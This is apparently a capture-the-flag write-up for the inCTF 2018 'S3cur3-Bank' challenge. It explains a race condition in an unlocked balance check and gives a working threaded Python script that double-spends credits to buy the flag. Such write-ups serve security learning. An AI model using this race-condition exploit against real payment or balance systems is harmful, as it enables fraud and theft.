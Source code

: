 # S3cur3-Bank

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/9.png)

44/306 = 14% of the teams solved this challenge.

## Reconnaissance

First page is a login/registration page. Let's create a new user and login.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/10.png)

Okay, we can buy the flag for 5000 credits, but combined we only have 2000 credits. My first thought on this is that the application does not perform exclusive locks when moving money.

Psuedo code for the send function would look like this:

```python
send_money(to, amount):
  account_balance = get_account_balance(self)
  if account_balance - amount > 0
      # Enough credits to send
      send_money_to_account(to, amount_send)
      account_balance -=amount_send;
```

The insecure part of this is that there are no exclusive locks. What if we send two requests at basically the same time by using threads.

```python
send_money(A, 500) # account_balance before: 1000
send_money(A, 500) # account_balance before: 1000
```

These requests will read the account_balance which will return 1000.
Then it will send 500 credits to account A. Then subtract 500 from the original account_balance (1000-500=500).

`Account balance after: 500`

Notice something? We've sent 500*2 credits, but we still have 500 in our account. Let's apply this theory to practice.

## Exploiting the bank

```python
import requests
import threading

url = "http://18.188.42.158/bank.php?id=a839eea9f6b192ad586ad41e8bd4d4db"


def make_money():
	data = {"transfer": 500, "account": "Transfer to A"}
	response = requests.post(url,data=data)
	print response.text

try:

	t1 = threading.Thread(target=make_money, args=[])
	t2 = threading.Thread(target=make_money, args=[])
	t1.start()
	t2.start()

except:
   print "Error: unable to start thread"

```

After running the script back a few times transfering money between A and B. We can buy the flag

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/11.png)

And now we can buy the flag.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/12.png)
